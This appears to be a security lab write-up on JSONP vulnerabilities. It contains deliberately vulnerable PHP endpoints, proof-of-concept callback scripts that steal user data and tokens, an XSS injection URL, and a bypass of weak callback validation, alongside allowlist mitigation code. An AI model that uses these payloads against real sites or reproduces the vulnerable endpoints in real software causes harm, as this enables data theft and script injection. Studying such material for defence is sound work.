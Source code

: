 # JSONP

Code Vulnerable

```html
<?php
session_start();

if($_SESSION['islogin'] != 1){
    header("Location: login.php");
    die();
}

?>
<html>
  <head>
    <title>Books Library</title>
    <link rel="stylesheet" type="text/css" href="../style/css.css">
  </head>
  <body id="bodyId">
    <div class="header">
      <a href="index.php" class="logo">Books Library</a>
      <div class="header-right">
        <a href="index.php">Home</a>
        <a class="active" href="profile.php">Profile</a>
        <a href="login.php">Login</a>
      </div>
    </div>
    <div id=output>
    	
    </div>
    <div class="container">
    	**<script type="text/javascript">
    		function userInfo(data){
    			var name = '<center><span>User Name: '+data["username"]+'</span><br>',
    				email = '<span>Email: '+data['email']+'</span><br>',
    				fname = '<span>Full Name: '+data['Full Name']+'</span></center>';
    			document.getElementById('output').innerHTML = name+email+fname;
    		}
    	</script>**
    	<script src="<http://vuln.labs/labs/jsonp/info.php?callback=userInfo>"></script>
    </div>
  </body>
</html>
```

POC

```jsx
**<script>
	function userInfo(data){
		document.write(JSON.stringify(data))
	}
</script>
<script src='<http://localhost/labs/jsonp/info.php?callback=userInfo>'></script>**
```

Mitigation

Use CORS Instead of JSONP

Strict Callback Validation

```php
<?php
header('Content-Type: application/javascript');

**$allowed_callbacks = ['safeFunction'];**
$callback = $_GET['callback'];

if (in_array($callback, $allowed_callbacks)) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}

```

JSONP Content-Type Validation

More Complex

#### Scenario 1: Exploiting with Malicious Parameters

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$name = isset($_GET['name']) ? $_GET['name'] : 'John Doe';
$email = isset($_GET['email']) ? $_GET['email'] : 'john@example.com';

$data = [
    "name" => $name,
    "email" => $email
];

// Vulnerable JSONP response with user input
echo $callback . '(' . json_encode($data) . ');';

```

exploit

```jsx
<http://localhost/vulnerable_server.php?callback=stealData&name=><script>alert('XSS')</script>&email=attacker@example.com

```

get XSS and JSONP data

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

#### Scenario 2: Bypassing Weak Validation

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$allowed_callbacks = ['safeFunction'];

if (strpos($callback, 'safe') === 0) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}
```

#### Exploit

```jsx
<http://vulnerable.com/vulnerable_server.php?callback=safeStealData>
```

#### Scenario 4: JSONP Hijacking via CORS Misconfiguration

#### CORS-Enabled

```php
<?php
header('Access-Control-Allow-Origin: *'); // Wide open CORS policy
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$data = [
    "token" => "58rec269qs4a9w8ewd2a6ghy6", // Sensitive data
];

echo $callback . '(' . json_encode($data) . ');';

```

Exploit

```javascript
<script>
function safeStealData(data) {
    console.log("Stolen token:", data.token);
    // Further actions like sending the token to the attacker's server
}
</script>
<script src="<http://localhost/labs/jsonp/plus/vuln_server3.php?callback=safeStealData>"></script>
```

Scenario 5: Advanced URL Manipulation

```php
<?php
header('Content-Type: application/javascript');

$callback = **urldecode**($_GET['callback']);
$data = [
    "name" => "John Doe",
    "email" => "john@example.com"
];

echo $callback . '(' . json_encode($data) . ');';
```
